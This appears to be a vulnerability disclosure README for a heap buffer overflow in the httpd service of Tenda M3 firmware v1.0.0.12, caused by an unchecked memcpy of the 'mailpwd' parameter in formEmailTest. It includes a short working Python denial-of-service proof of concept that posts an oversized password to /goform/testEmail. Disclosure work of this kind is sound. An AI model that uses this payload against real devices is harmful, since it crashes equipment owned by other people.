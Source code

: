# Tenda M3 contains heap buffer Overflow Vulnerability

## overview

- type: heap buffer overflow vulnerability
- supplier: Tenda https://www.tenda.com 
- product: TendaM3 https://www.tenda.com.cn/product/M3.html
- firmware download:   https://www.tenda.com.cn/download/detail-3133.html
- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a heap buffer overflow. The vunlerability is in fucntion `formEmailTest` 

It calls `malloc(0x28Cu)` to allocate heap buffer, and it  copies POST parameter `mailpwd` to heap buffer. 

![image-20220819125604907](readme.assets/image-20220819125604907.png)

`v5` is the length of `mailpwd`, but it doesn’t limit it. so if `v5>0x28C`, the `memcpy(v4, v20, v5)` will cause heap buffer overflow 

The progarm crashed when call `malloc`, the stack frame is below. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "mailname": "@", 
    "mailpwd": "b"*0x400
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/testEmail", data=data, cookies=cookies)
print(res.content)
```

![image-20220819125732221](readme.assets/image-20220819125732221.png)

![image-20220819130142153](readme.assets/image-20220819130142153.png)

![image-20220819130252664](readme.assets/image-20220819130252664.png)